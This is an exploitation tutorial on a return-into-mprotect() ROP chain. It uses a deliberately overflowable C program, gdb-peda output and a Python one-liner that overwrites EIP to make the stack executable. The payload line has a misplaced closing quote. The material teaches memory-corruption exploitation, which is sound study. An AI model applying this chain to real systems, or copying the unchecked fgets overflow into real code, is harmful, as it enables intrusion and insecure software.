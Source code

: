 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

```
gdb-peda$ p mprotect $1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
Address of mprotect : 0xf7f2d2e0
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory
SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.
It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000
Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget
pop3ret = 0x8048882
```

Finally.

```
python -c "
    print'\xCC' * 524         # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'       # address of mprotect()
    +'\x82\x88\x04\x08'       # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'       # address of the stack
    +'\x00\x10\x02\x00'       # size of the stack
    +'\x07\x00\x00\x00'"      # flag read/write/execute
    +'\xc0\xd2\xff\xff'       # payload on the stack ;)
```

After calling mprotect you can notice the execution flag on the stack.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
